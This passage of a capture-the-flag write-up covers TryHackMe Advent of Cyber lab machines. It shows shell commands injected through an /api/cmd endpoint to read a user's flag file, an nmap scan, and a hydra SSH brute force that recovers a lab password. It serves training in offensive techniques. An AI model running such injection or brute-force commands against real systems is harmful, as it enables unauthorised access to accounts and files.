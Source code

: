 
### 1 - What are the contents of the user.txt file?
We start by checking out the `/api/cmd` endpoint. It seems like we can run the `ls` command by appending the command after the endpoint. So `/api/cmd/ls` shows the directory listing:


![ls](https://user-images.githubusercontent.com/32188816/82995478-dd168800-9fc0-11ea-9277-59ca2c9f0d9f.png)


Next we look at what is in the `home` directory:


![ls_home](https://user-images.githubusercontent.com/32188816/82995557-f7506600-9fc0-11ea-9a8f-c020a91a5b3c.png)


Then what is in `bestadmin` directory:


![ls_home_best_admin](https://user-images.githubusercontent.com/32188816/82995647-15b66180-9fc1-11ea-8503-b30a0beaca81.png)


Finally we can cat the flag in `/home/bestadmin/user.txt`:

![user](https://user-images.githubusercontent.com/32188816/82995713-31216c80-9fc1-11ea-81e4-068ec4da5e58.png)




## Task 25 -- [Day 20] Cronjob Privilege Escalation
```
export IP=10.10.187.92
```
### 1 - What port is SSH running on?
```bash
jeffrowell@kali:~/Documents/TryHackMe/Advent of Cyber/cronjob_privilege_escalation$ nmap -sC -sV -Pn -n -oN nmap/initial $IP -T4
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-26 01:23 MDT
Nmap scan report for 10.10.187.92
Host is up (0.14s latency).
Not shown: 999 closed ports
PORT     STATE SERVICE VERSION
4567/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 67:7d:b9:9f:0b:8b:a1:12:3f:49:f5:a2:12:3c:ce:46 (RSA)
|   256 3a:c2:e1:fa:a9:9c:72:00:95:cf:51:c1:43:d8:9d:85 (ECDSA)
|_  256 21:0c:8d:f6:2a:dd:d3:04:cb:52:b4:4d:f3:66:7c:c6 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.97 seconds
```


### 2 - Crack sam's password and read flag1.txt
```bash
jeffrowell@kali:~/Documents/TryHackMe/Advent of Cyber/cronjob_privilege_escalation$ hydra -l sam -P /usr/share/wordlists/rockyou.txt ssh://$IP -s 4567
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-26 01:25:00
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.187.92:4567/
[4567][ssh] host: 10.10.187.92   login: sam   password: chocolate
1 of 1 target successfully completed, 1 valid password found
```